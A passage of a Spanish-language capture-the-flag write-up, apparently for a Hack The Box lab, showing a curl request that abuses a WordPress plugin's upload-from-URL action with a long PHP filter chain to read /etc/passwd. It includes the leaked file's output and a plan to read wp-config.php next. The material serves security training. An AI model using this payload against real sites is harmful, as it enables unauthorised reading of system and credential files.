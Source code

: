 ~~~ bash
curl http://blog.bigbang.htb/wp-admin/admin-ajax.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'action=upload_image_from_url&id=1&accepted_files=image/gif&url=php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=/etc/passwd'

{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/05\/1-29.png","attachment_id":184}
~~~

Si ahora descargamos el contenido de `1-34.png`, veremos el archivo `/etc/passwd`

~~~ bash
curl 'http://blog.bigbang.htb/wp-content/uploads/2025/05/1-29.png' -so test.png

cat test.png

GIF89aroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologi#
~~~

Logramos hacer que el servidor incluya recursos internos en la solicitud HTTP, y como estamos en Wordpress, intentaremos leer el archivo `wp-config.php`, ubicado un directorio atrás, recordemos que estamos haciendo la solicitud a `wp-admin/admin-ajax.php`
